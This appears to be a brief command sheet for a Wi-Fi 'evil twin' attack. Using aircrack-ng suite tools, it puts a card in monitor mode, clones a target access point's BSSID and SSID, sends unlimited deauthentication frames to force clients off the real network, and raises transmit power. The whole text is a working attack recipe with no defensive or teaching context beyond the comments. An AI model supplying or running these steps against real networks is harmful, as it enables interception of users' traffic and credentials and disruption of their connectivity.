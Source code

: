 # Set up a manual spoofed evil twin AP
# Start out wifi card in monitor mode 
airmon-ng start {Interface name}
# Get our new nic name
ifconfig
# Start capturing on our new interface
airodump-ng {New interface name}
# Create a new fake AP, open a new terminal
airbase-ng -a {Bssid of target} --essid "{SSID of target}" -c 11 {interface}
# Bump the target off there original AP
aireplay-ng wlan1mon --deauth 0 -a {BSSID}
# Turn up our WIFI power on original interface!
iwconfig wlan0 txpower 27
